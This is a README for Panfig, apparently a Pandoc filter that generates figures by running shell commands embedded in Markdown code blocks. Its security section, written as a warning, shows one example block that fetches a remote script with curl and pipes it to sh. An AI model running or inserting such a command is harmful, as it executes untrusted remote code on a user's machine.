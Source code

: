 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

```markdown
Here is a very simple FSM: the "on-off automaton."

~~~~~~~~ {.panfig sh="dot -Tpng -o {path}"}
  digraph G {
    on [style=filled];
    on -> off;
    off -> on;
  }
~~~~~~~~
```

generates this HTML:

> Here is a very simple FSM: the "on-off automaton."
>
> ~~~~~~~~ {.panfig sh="dot -Tpng -o {path}"}
>   digraph G {
>     on [style=filled];
>     on -> off;
>     off -> on;
>   }
> ~~~~~~~~



Security: for God's sake, be careful.
-------------------------------------

I am putting this here because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**

    ~~~~~~~~ { .panfig sh="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~



How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

```markdown
~~~~~~~~ { .panfig shell="dot -Tpdf -o {path}" }
  digraph G {
    on -> off;
    off -> on;
  }
~~~~~~~~
```

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- With aliases:

    ```markdown
    ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
      Plot[Sin[x], {x, 0, 2*Pi}]
    ~~~~~~~~
    ```

- With aliases:

    ```markdown
    ~~~~~~~~ { .panfig-aliases }
    {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
    ~~~~~~~~

    ~~~~~~~~ { .panfig alias=mma }
      Plot[Sin[x], {x, 0, 2*Pi}]
    ~~~~~~~~
    ```
